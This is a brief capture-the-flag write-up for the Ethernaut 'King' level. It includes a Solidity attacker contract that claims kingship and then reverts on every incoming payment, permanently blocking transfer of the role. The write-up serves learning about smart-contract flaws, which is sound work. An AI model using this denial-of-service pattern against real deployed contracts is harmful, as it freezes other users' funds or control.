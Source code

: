 ```yaml
---
layout: post
title:  Ethernaut - King
categories: [pwnable.kr]
excerpt: Writeup for King.
---
```

# Ethernaut - King

This uses `cmichel`'s Ethernaut solutions repo as a template, hence the similarities.

# Initial insights

Immediately, we can see from looking at the contract that the contract _depends_ on the current king getting their ether back.
In paritcular, in the `receive()` function, `king.transfer(msg.value)` must pass in order for kingship to be transferred; we can use an age old DoS style fallback attack to claim kingship forever.

# The exploit

This is extremely short as the scope is just fallback DoS style:

```solidity
pragma solidity ^0.7.3;

interface IKing {
    function changeOwner(address _owner) external;
}

contract KingAttacker {
    IKing public challenge;

    constructor(address challengeAddress) {
        challenge = IKing(challengeAddress);
    }

    function attack() external payable {
        payable(address(challenge)).call{value: msg.value}("");
    }

    receive() external payable {
        require(false);
    }
}
```
